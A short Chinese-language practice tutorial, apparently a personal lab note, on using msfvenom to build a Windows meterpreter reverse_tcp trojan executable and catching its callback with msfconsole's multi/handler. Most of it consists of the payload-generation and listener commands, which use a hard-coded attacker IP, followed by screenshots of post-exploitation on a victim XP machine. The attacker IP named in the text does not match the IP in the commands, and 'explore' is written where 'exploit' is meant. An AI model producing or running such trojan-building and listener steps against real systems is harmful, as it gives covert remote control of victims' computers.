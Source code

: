 # msfvenom练习

msfvenom是msfpayload,msfencode的结合体,它的优点是单一,命令行,和效率.利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线

## 1、生成exe木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=124.223.192.250 LPORT=4444 -f exe -o 123.exe
```

212.129.238.18是攻击者的监听机器，4444是被攻击机器监听端口

### 开启kali监听

启动msfconsole

![image-20220317151928134](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwlr427jj20hg0gkta3.jpg)

#### 开启监听

```
use exploit/multi/handler
```



#### 设置tcp监听

```
set payload windows/meterpreter/reverse_tcp

set lhost 124.223.192.250
```

![image-20220317152306277](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwpjmmdoj20uk0e640c.jpg)



#### 输入explore开始监听

### 木马上线

当被攻击的机器（我的是windows xp）点击生成的123.exe木马时，即可以监听到木马上线

![image-20220317152638860](/Users/oo/Library/Application Support/typora-user-images/image-20220317152638860.png)

查看系统信息

![image-20220317134219094](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0ctsnxma7j20zs08caaq.jpg)

查看系统截图

![image-20220317134233725](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0ctsy65qqj217v0u0wjd.jpg)

等等可以一系列后渗透操作。。
